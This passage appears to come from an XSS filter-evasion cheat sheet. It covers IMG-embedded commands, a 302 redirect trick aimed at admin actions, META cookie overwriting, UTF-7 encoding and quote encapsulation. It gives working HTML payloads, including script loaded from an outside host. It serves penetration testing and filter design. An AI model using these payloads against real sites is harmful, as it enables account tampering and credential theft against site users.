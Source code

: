 ## IMG Embedded Commands

This works when the webpage where this is injected (like a web-board) is behind password protection and that password protection works with other commands on the same domain. This can be used to delete users, add users (if the user who visits the page is an administrator), send credentials elsewhere, etc.... This is one of the lesser used but more useful XSS vectors:

```html
<IMG SRC="http://www.thesiteyouareon.com/somecommand.php?somevariables=maliciouscode">
```

### IMG Embedded Commands part II

This is more scary because there are absolutely no identifiers that make it look suspicious other than it is not hosted on your own domain. The vector uses a 302 or 304 (others work too) to redirect the image back to a command. So a normal `<IMG SRC="httx://badguy.com/a.jpg">` could actually be an attack vector to run commands as the user who views the image link. Here is the .htaccess (under Apache) line to accomplish the vector (thanks to Timo for part of this):

`Redirect 302 /a.jpg http://victimsite.com/admin.asp&deleteuser`

## Cookie Manipulation

Admittedly this is pretty obscure but I have seen a few examples where `<META` is allowed and you can use it to overwrite cookies. There are other examples of sites where instead of fetching the username from a database it is stored inside of a cookie to be displayed only to the user who visits the page. With these two scenarios combined you can modify the victim's cookie which will be displayed back to them as JavaScript (you can also use this to log people out or change their user states, get them to log in as you, etc...):

```html
<META HTTP-EQUIV="Set-Cookie" Content="USERID=<SCRIPT>alert('XSS')</SCRIPT>">
```

## UTF-7 Encoding

If the page that the XSS resides on doesn't provide a page charset header, or any browser that is set to UTF-7 encoding can be exploited with the following (Thanks to Roman Ivanov for this one). Click here for an example (you don't need the charset statement if the user's browser is set to auto-detect and there is no overriding content-types on the page in Internet Explorer and Netscape 8.1 in IE rendering engine mode). This does not work in any modern browser without changing the encoding type which is why it is marked as completely unsupported. Watchfire found this hole in Google's custom 404 script.:

```html
<HEAD><META HTTP-EQUIV="CONTENT-TYPE" CONTENT="text/html; charset=UTF-7"> </HEAD>+ADw-SCRIPT+AD4-alert('XSS');+ADw-/SCRIPT+AD4-`
```

## XSS Using HTML Quote Encapsulation

This was tested in IE, your mileage may vary. For performing XSS on sites that allow `<SCRIPT>` but don't allow `<SCRIPT SRC...` by way of a regex filter `/\<script\[^\>\]+src/i`:

```html
<SCRIPT a=">" SRC="httx://xss.rocks/xss.js"></SCRIPT>
```
